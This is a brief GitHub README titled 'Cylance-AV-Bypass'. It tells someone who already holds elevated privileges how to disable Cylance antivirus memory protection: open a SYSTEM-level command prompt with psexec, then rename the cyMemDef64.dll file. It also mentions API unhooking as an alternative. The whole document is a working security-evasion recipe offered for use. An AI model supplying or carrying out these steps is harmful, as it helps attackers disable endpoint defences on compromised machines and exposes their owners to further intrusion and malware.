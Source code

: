 # Cylance-AV-Bypass
If you have access as Elevated Privs on system, you can bypass Cylance AV by renaming the cyMemDef64.dll for x64 and or cyMemDef.dll for 32bit. You can also acheive this with unhooking using C or Golang code to talk directly to windows API. This is more advanced; however, below is a super simple way to disable Cylance Memory Protection
1) Open up command prompt as NT System by running psexec.exe -i -s %SystemRoot%\system32\cmd.exe
2) Run move "C:\Program Files\Cylance\Desktop\cyMemDef64.dll" "C:\Program Files\Cylance\Desktop\cyMemDef64.dll.bak"
3) You can no bypass Cylance Memory protection. 
